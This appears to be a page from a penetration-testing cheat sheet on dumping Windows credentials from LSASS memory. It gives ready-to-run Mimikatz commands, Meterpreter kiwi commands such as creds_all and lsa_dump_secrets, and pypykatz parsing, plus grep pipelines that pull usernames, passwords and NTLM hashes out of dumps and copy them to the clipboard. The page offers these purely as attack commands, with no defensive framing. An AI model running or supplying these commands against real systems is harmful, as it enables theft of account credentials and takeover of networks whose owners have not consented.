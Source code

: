 

### Mimikatz

- [https://github.com/gentilkiwi/mimikatz/releases](https://github.com/gentilkiwi/mimikatz/releases)
- [https://tools.thehacker.recipes/mimikatz](https://tools.thehacker.recipes/mimikatz)

```
PS > .\mimikatz.exe "privilege::debug" "token::elevate" "log out.txt" "sekurlsa::logonpasswords full" "exit"
```

{% hint style="warning" %}
In case of Windows 10 version 1803-1809 use [Mimikatz v2.1.1](https://github.com/gentilkiwi/mimikatz/files/4167347/mimikatz_trunk.zip), see [Key import error](https://github.com/gentilkiwi/mimikatz/issues/248)
{% endhint %}

Parse MiniDump:

```
PS > .\mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords full" "exit"
```


#### kiwi

```
meterpreter > getsystem
meterpreter > load kiwi
meterpreter > creds_msv
meterpreter > creds_wdigest
meterpreter > lsa_dump_secrets
meterpreter > creds_all
meterpreter > kiwi_cmd '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords full" "exit"'
```



### pypykatz

- [https://github.com/skelsec/pypykatz/releases/latest](https://github.com/skelsec/pypykatz/releases/latest)

Parse MiniDump and grep for creds:

```
$ pypykatz lsa minidump lsass.dmp > out.txt

# Dumped with Mimikatz
$ grep -a '* Username : ' out.txt -A2 | grep -a -e Username -e Password -e NTLM | grep -a -v null | xclip -i -sel c

# Dumped with pypykatz
$ grep -a -P '\tusername ' out.txt -A2 | grep -a -e username -e password | grep -a -v None | xclip -i -sel c
$ grep -a -P 'Username: ' out.txt -A4 | grep -a -e Username -e Domain -e NT | grep -a -v None | xclip -i -sel c
```
